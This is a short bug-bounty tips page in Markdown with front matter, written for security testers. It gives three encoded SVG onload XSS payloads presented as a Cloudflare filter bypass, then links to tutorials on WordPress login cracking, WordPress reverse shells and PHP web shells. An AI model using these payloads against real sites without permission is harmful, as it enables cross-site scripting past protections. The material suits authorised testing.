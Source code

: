 ```yaml
---
title: "Bug Bounty Tips"
draft: false
images: []
description: "Some bug bounty tips from different sources"
lead: "Some bug bounty tips from different sources"
menu:
  docs:
    parent: "Wapp"
weight: 200
toc: true
---
```


### XSS Cloudflare Bypass
```
🚨 New CloudFlare XSS Bypass! 🚨

<svg onload=alert%26%230000000040"1")>
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
```

### Pentesting Wordpress
```
https://hackingarticles.in/wordpress-pentest-lab-setup-in-multiple-ways/

https://hackingarticles.in/multiple-ways-to-crack-wordpress-login/

https://hackingarticles.in/wordpress-reverse-shell/

https://hackingarticles.in/wpscanwordpress-pentesting-framework/
```

### Uploading various PHP Web Shells 
```
https://www.hackingarticles.in/web-shells-penetration-testing/
```